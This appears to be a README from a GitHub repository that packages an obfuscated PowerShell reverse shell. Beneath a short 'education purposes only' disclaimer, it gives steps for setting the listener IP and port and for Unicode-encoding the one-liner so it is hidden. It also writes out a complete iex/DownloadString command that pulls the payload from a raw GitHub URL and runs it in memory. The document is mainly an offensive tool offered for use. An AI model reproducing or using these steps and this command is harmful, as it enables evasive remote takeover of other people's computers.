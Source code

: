⚠️ Disclaimer: Employing the methods and principles outlined in this repository to obtain unauthorized entry into systems without proper authorization is against the law. You are accountable for your conduct. Act responsibly and refrain from engaging in malicious activities. This is for education purposes only


**Instructions**

1. Edit the Obfuscated PowerShell reverse shell one liner script with your chosen listener IP Address and Port number.
2. Use the Python script to convert the PowerShell reverse shell one liner characters to its Unicode format.
3. Replace the Unicode payload on the demontime.ps1 script with the output generated from the Python script.

**Optional**

Fork this repo so you can run the following one liner:

`iex -Debug -Verbose -ErrorVariable $e -InformationAction Ignore -WarningAction Inquire ((New-Object 	System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/xxxxxx/experiment/main/demontime.ps1'));demontime`

NOTE: Replace the URL with your own forked repo.
